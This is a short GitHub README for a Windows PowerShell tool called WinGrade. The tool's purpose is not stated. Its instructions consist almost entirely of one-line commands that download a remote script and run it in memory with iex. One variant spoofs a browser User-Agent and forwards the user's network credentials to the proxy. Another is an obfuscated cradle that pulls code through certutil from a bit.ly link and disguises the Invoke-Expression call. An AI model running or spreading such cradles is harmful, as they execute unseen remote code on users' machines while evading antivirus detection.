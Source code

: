 # WinGrade

You can execute it in every Windows Operating System from Windows 7 - 10.

You don't have to Download the Program directly at github.

Just execute [CMD]:
```powershell
powershell "iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')"
```
or
```powershell
powershell "$down=New-Object Net.WebClient;$down.Headers['User-Agent']='Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/525.19 (KHTML, like Gecko) Chrome/1.0.154.53 Safari/525.19';$down.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials;$down.DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')|iex"
```
in [POWERSHELL]:

```powershell
powershell "iex(((C:\Windows\System32\certutil -ping https://bit.ly/2tZuas2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-Skip 2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-SkipLast 1)-Join'`r`n'))"
```

Tested on following Operating Systems:

|   System        |  x64  |  x86  |
| :---            | :---: | :---: |
| Windows 10      |  <ul><li>- [x] yes</li></ul>  |  <ul><li>- [ ] no</li></ul>  |
| Windows 8.1     |  <ul><li>- [x] yes</li></ul>  |  <ul><li>- [ ] no</li></ul>  |
| Windows 8       |  <ul><li>- [ ] no</li></ul>  |  <ul><li>- [ ] no</li></ul>  |
| Windows 7       |  <ul><li>- [x] yes</li></ul>  |  <ul><li>- [ ] no</li></ul>  |
| Windows Vista   |  <ul><li>- [ ] no</li></ul>  |  <ul><li>- [ ] no</li></ul>  |

This Script is still in the early Alpha release!!! And has some bugs
